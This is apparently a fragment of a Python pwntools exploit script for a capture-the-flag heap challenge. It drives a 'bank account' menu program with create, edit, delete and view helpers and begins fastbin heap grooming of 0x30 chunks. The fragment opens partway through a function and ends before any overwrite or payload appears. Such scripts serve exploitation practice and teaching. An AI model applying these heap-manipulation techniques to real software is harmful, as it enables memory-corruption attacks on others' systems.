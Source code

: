 ```python
	sh.send("1\n")
	sh.recvuntil("Enter title of bank account: ")
	sh.send(title)
	sh.recvuntil("Enter size of your bank statement: ")
	sh.send(str(size) + "\n")
	slp()
	sh.send(statement + "\n")
	sh.recvuntil("Account has been created at index ")
	ret = int(sh.recvuntil("\n"))
	sh.recvuntil("5. View your bank status\n")
	return ret

def edit_title(idx, title):
	sh.send("2\n")
	sh.recvuntil("Enter index of bank account: ")
	sh.send(str(idx) + "\n")
	slp()
	sh.send(title)
	sh.recvuntil("5. View your bank status\n")

def edit_statement(idx, statement):
	sh.send("3\n")
	sh.recvuntil("Enter index of bank account: ")
	sh.send(str(idx) + "\n")
	slp()
	sh.send(statement + "\n")
	sh.recvuntil("5. View your bank status\n")

def delete(idx):
	sh.send("4\n")
	sh.recvuntil("Enter index of bank account: ")
	sh.send(str(idx) + "\n")
	sh.recvuntil("5. View your bank status\n")

def view(idx):
	sh.send("5\n")
	sh.recvuntil("Enter index of bank account: ")
	sh.send(str(idx) + "\n")
	sh.recvuntil("Title: ")
	title = sh.recvuntil("\n")
	sh.recvuntil("Statement: ")
	statement = sh.recvuntil("\n")
	sh.recvuntil("5. View your bank status\n")
	return (title[:len(title)-1],statement[:len(statement)-1])

tmp1 = create("1", 0x20, "1")
tmp2 = create("2", 0x20, "2")
delete(tmp1)
delete(tmp2)
#now 4 0x30 fastbin, ordered by 6903

fst4_0x30 = [0] * 4
for i in map(lambda x:x/3,[6,9,0,3]):
	fst4_0x30[i] = create(str(i), 0x50, str(i))
#consume the 0x30 chunks, put them in an array,
#idx correspond to memory position

#want allocation order 31 02
delete(fst4_0x30[2])
delete(fst4_0x30[0])
delete(fst4_0x30[1])
delete(fst4_0x30[3])

```